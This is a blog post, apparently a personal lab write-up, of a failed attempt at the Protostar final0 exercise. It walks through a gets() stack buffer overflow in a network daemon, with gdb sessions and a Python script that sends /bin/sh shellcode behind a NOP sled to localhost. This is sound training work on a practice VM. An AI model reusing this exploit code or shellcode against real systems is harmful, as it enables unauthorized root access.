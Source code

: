 ```yaml
---
layout: post
title:  "Protostar final-zero-fail1 challenge"
date:   2019-02-27 18:26:36 +0530
categories: exploit.education protostar final-zero-fail1
---
```

We now start with final series of protostar exercises. [final-zero][final-zero-link]

{% highlight cpp %}
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
The network part of code is same as previous network series exercises [net-zero][net-zero-link].
The vulnerability is in `gets(buffer);` and we can overwrite `RET` to direct execution to our `shell-code` placed on the stack.
But the program also converts all ASCII in range `0x61 – 0x7a` to `toupper(buffer[i])`. So any value in our `shell-code` in this range will be changed.
We can overcome this by appending `\x00` before `shell-code` as `strlen` reads only uptil `\x00`.
Also the code converts `\n` ie ASCII `\x0a` to `0`

First we need to find start of buffer and how further its from `RET`. 
{% highlight shell %}
user@protostar:~$ python -c "print 'A'*532 + '\xef\xbe\xad\xde'" | nc 127.0.0.1 2995
user@protostar:~$ su root
Password: 
root@protostar:/home/user# gdb -q -c /tmp/core.11.final0.1532
Core was generated by '/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/50x $esp-600
0xbffffa08: 0xbffffa28  0xb7f0a068  0x0804b008  0xbffffa48
0xbffffa18: 0x00000201  0x00000200  0x00000000  0x00000000
0xbffffa28: 0xbffffc58  0x0804982a  0xbffffa48  0x0000000d
0xbffffa38: 0x00000200  0x00000567  0xb7e9c894  0x0d696910
0xbffffa48: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa58: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa68: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa78: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa88: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa98: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffaa8: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffab8: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffac8: 0x41414141  0x41414141
(gdb)
{% endhighlight %}
After some manual checks i found `RET` is 532 away from buffer.
Also we see in `gdb` that buffer starts from `0xbffffa48`
Now lets create exploit code to return to our shellcode and run is against our binary.
{% highlight shell %}
user@protostar:~$ cat final0.py 
sc = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
alen = 531 - len(sc)
print "\x90"*alen + "\n" + sc + "\x48\xfa\xff\xbf"
user@protostar:~$ python final0.py | nc 127.0.0.1 2995
No such user ���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������
user@protostar:~$ ls /tmp
user@protostar:~$
{% endhighlight %}
Oops. Did not work as expected. Also no core-dump generated to explore in gdb. Phew. Lets connect to process to check it otherwise.
{% highlight shell %}
user@protostar:~$ su root
Password: 
root@protostar:/home/user# gdb -p `pidof final0`
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
64  ../sysdeps/unix/sysv/linux/i386/socket.S: No such file or directory.
  in ../sysdeps/unix/sysv/linux/i386/socket.S
(gdb) set follow-fork-mode child
Current language:  auto
The current source language is "auto; currently asm".
(gdb) b *0x0804978b `to get buf address`
Breakpoint 1 at 0x804978b: file final0/final0.c, line 19. 
(gdb) b *0x08049790 `to check out values copied properly`
Breakpoint 2 at 0x8049790: file final0/final0.c, line 22.
(gdb) b *0x080497c6 `to check how it was modified after 1st strchr`
Breakpoint 3 at 0x80497c6: file final0/final0.c, line 24.
(gdb) c
Continuing. -> In separte terminal we rerun `user@protostar:~$ python final0.py | nc 127.0.0.1 2995`
Breakpoint 1, 0x0804978b in get_username () at final0/final0.c:19
19  final0/final0.c: No such file or directory.
  in final0/final0.c
(gdb) x/x $esp
0xbffffa30: 0xbffffa48
(gdb) c
Continuing.
Breakpoint 2, get_username () at final0/final0.c:22
22  in final0/final0.c
(gdb) x/50x 0xbffffa48+350
0xbffffba6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbb6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbc6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbd6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbe6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbf6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc06: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc16: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc26: 0x90909090  0x00000090  0x00000000  0x00000000
0xbffffc36: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffffc46: 0x00020000  0x00000000  0x10400000  0x7ff4b7ff
0xbffffc56: 0xfc88b7fd  0x9879bfff  0x00040804  0x00000000
0xbffffc66: 0x00000000  0xfc880000
[New process 1623]
Program exited with code 0361.
{% endhighlight %}
We connect to process in root mode. Also we set gdb to follow child process. We set breakpoint before(to get buf address)/after `gets` and just before second `strchr`.
We check area around end of NOPs where our shell code should have started ie `0xbffffc26` but we see it is invalid `0000`. This maybe due to `\n` not taking further chars. I dont know. Lets instead try with passing `NULL \0` ie `\x00` as separator. We again set 3 breakpoints as above to check if things we copied properly.

(gdb) x/50x 0xbffffa48+350
0xbffffba6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbb6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbc6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbd6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbe6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbf6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc06: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc16: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc26: 0x90909090  0xc0310090  0xdb3146b0  0x80cdc931
0xbffffc36: 0x315918eb  0x074188c0  0x89087189  0x0bb00c41
0xbffffc46: 0x518d198d  0x08498d0c  0xe3e880cd  0x2fffffff
0xbffffc56: 0x2f6e6962  0xfa486873  0x0000bfff  0x00000000
0xbffffc66: 0x00000000  0xfc880000
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xbffffc2b in ?? ()

Well what! We see data is copied correctly this time but it gives segfault for instruction at `0xbffffc2b`.
`0xbffffc2b` is where we wrote `\x00`. Huh. Seems our attemt to escape toupper was successfull but what gives.
I also tried giving return address direct to start of shellcode but that method is also giving some error.
Further i tried to put shellcode after my `RET` and direct `RET` to `\x60\xfc\xff\xbf`
{% highlight shell %}
user@protostar:~$ cat final0.py 
sc = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
alen = 532
print "\x90"*alen + "\x60\xfc\xff\xbf" + sc
The current source language is "auto; currently asm".
(gdb) c
Continuing.
[New process 1738]
Executing new program: /bin/dash
{% endhighlight %}
Yay. We did get `Executing new program: /bin/dash` but in terminal from where python run, i am unable to run commands like `ls`. Just no output. What is going on?????

First i should not use stack to keep shellcode. It is highly unpredictable. Also i should pass data over network(changes in python).
Well i will get back to this exercise later again.

[final-zero-link]:https://exploit.education/protostar/final-zero/
[net-zero-link]:https://exploit.education/protostar/net-zero/